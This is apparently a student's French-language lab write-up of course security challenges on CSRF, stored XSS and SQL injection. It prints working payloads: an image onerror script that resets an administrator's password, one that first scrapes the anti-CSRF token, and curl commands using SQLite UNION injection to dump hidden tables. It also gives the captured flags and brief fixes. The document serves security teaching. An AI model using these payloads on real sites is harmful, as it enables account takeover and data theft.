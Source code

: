 # Lab 1 - Nathan Rayburn

## CSRF Simple

### 1. Quelle fonctionnalité du site, potentiellement vulnérable à une faille CSRF, pourriez-vous exploiter pour voler le compte administrateur ?

The password change functionality is vulnerable to CSRF and can be exploited to steal the admin account.

```javascript
fetch("http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn", {
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    "body": "password=test",
    "method": "POST",
});
```

### 2. Proposez une requête qui vous permettra de prendre le contrôle du compte admin, si elle était exécutée par l’administrateur

Un injection pourrait se faire à travers le compte d'administrateur lorsqu'il reçoit un message à travers l'application web. 

```javascript
fetch("http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin", {
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    "body": "password=hackerspassword",
    "method": "POST",
});
```

### 3. Écrivez une payload JavaScript qui exécute la requête

```html
<img src='invalid.jpg' onerror="
  fetch('/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  })
">
```

### 4. Quelle fonctionnalité du site, potentiellement vulnérable à une faille Stored XSS, pourriez-vous exploiter pour faire exécuter votre payload ?

La fonctionnalité de validation des entrées utilisateur (input validation) est vulnérable à une attaque Stored XSS.

### 5. Quel est le flag ? Comment avez-vous pu l'obtenir ?

On a pu récupérer le flag en utilisant l'injection via une balise HTML qui nous permet d'exécuter du `javascript` lorsque l'image charge. Comme l'image n'existe pas, le `onerror` s'exécute, là notre payload malveillant fait effet et on change le mot de passe de l'administateur à ce que l'on souhaite.


```html
<img src='invalid.jpg' onerror="
  fetch('/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  })
">
```

```bash
Congratulation! Your flag is: 8YeeieGoK/aDoTwo
```

### 6. Comment corrigeriez-vous la vulnérabilité ?

Pour corriger la vulnérabilité, il est nécessaire de mettre en place un mécanisme de protection contre les attaques CSRF (comme l'utilisation de jetons CSRF) et de valider correctement les entrées pour éviter les injections de code.

---

## CSRF Avancée

### 1. Qu’est-ce qu’un jeton anti-CSRF, comment fonctionne-t-il ?

Un jeton anti-CSRF est une valeur unique et aléatoire qui est envoyée avec chaque requête. Il est vérifié côté serveur pour s'assurer que la requête provient d'une session utilisateur authentifiée et non d'une attaque CSRF.

### 2. Comment déterminer si le formulaire est protégé par un jeton anti-CSRF ?

Un formulaire est protégé par un jeton CSRF si un champ caché contenant le jeton est présent dans le formulaire, et ce jeton est vérifié par le serveur lorsqu'une requête est soumise.

### 3. Le site est également vulnérable à une attaque XSS. Quel est le flag du challenge ? Décrivez l’attaque.

L'attaque XSS est déclenchée en injectant du code JavaScript malveillant, qui exécute une requête pour récupérer un jeton CSRF puis modifie les données sensibles.

```html
<img src='invalid.jpg' onerror="
  fetch('/profile/nathan.rayburn_admin', { method: 'GET' })
    .then(response => response.text())
    .then(html => {
      const parser = new DOMParser();
      const doc = parser.parseFromString(html, 'text/html');
      const csrfToken = doc.querySelector('#_csrf').value;
      
      return fetch('/profile/nathan.rayburn_admin', {
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: `_csrf=${csrfToken}&password=test`,
        method: 'POST'
      });
    })
">
```

```bash
Congratulation! Your flag is: wMQf78jUXavuMdp1
```

### 4. Comment corrigeriez-vous la vulnérabilité ?

Pour corriger cette vulnérabilité, il est recommandé de valider et d'échapper toutes les entrées utilisateur avant de les afficher, afin de prévenir les attaques XSS.

---

## Injection SQL

### 1. Quelle partie du service est vulnérable à une injection SQL ?

La fonctionnalité qui permet de récupérer des données en fonction de l'ID dans la base de données est vulnérable à une injection SQL.

```bash
curl 'http://sql.slh.cyfr.ch/flowers' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9,de-DE;q=0.8,de;q=0.7,fr;q=0.6' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -H 'DNT: 1' \
  -H 'Origin: http://sql.slh.cyfr.ch' \
  -H 'Referer: http://sql.slh.cyfr.ch/' \
  -H 'User-Agent: Mozilla/5.0' \
  --data-raw '{"id":"4"}' \
  --insecure
```

### 2. Le serveur implémente une forme insuffisante de validation des entrées. Expliquez pourquoi c’est insuffisant.

Le serveur ne valide pas correctement les entrées, permettant ainsi d'injecter des requêtes SQL malveillantes. Cela peut entraîner une fuite de données ou une modification non autorisée des données.

### 3. Quel est le flag ? Comment avez-vous procédé pour l’obtenir ?

Le flag a été obtenu en exploitant une injection SQL pour extraire des données sensibles depuis une table cachée dans la base de données.

J'ai pu trouver qu'on peut injecter du SQL en utilisant des commentaires pour séparer les commandes. On connait la table `flowers` et on aimerait trouver un `UNION` avec une autre table existante qui >= de colonnes.


En recherchant, on a trouvé que c'était du `SQLite` et donc on a regardé les tables par défaut dans la documentation.


```bash
curl 'http://sql.slh.cyfr.ch/flowers' \
  -H 'Accept: */*' \
  -H 'Content-Type: application/json' \
  --data-raw '{"id":"1/**/UNION/**/SELECT/**/type,/**/name,/**/tbl_name,/**/sql/**/FROM/**/sqlite_master/**/"}' \
  --insecure
```

Output
```bash
[[1,"Rose","Red",5],["index","sqlite_autoindex_super_secret_stuff_1","super_secret_stuff",null],["table","flowers","flowers","CREATE TABLE flowers (\n            id INTEGER PRIMARY KEY,\n            name TEXT,\n            color TEXT,\n            petals INTEGER\n        )"],["table","super_secret_stuff","super_secret_stuff","CREATE TABLE super_secret_stuff (name TEXT PRIMARY KEY, value TEXT)"]]
```

On trouve une table `super_secret_stuff`

```bash
curl 'http://sql.slh.cyfr.ch/flowers' \
  -H 'Accept: */*' \
  -H 'Content-Type: application/json' \
  --data-raw '{"id":"1/**/UNION/**/SELECT/**/name,/**/value,/**/NULL,/**/NULL/**/FROM/**/super_secret_stuff"}' \
  --insecure
```

```bash
[[1,"Rose","Red",5],["flag","SLH25{D0N7_P4r53_5Q1_M4NU411Y}",null,null]]
```

### 4. Quel est le DBMS utilisé ? Auriez-vous procédé différemment si le DBMS avait été MySQL ou MariaDB ?

Le DBMS utilisé est SQLite, ce qui est révélé par les métadonnées dans la table `sqlite_master`. Si le DBMS avait été MySQL ou MariaDB, l'approche aurait pu être similaire, mais les différences syntaxiques des injections SQL auraient dû être prises en compte.
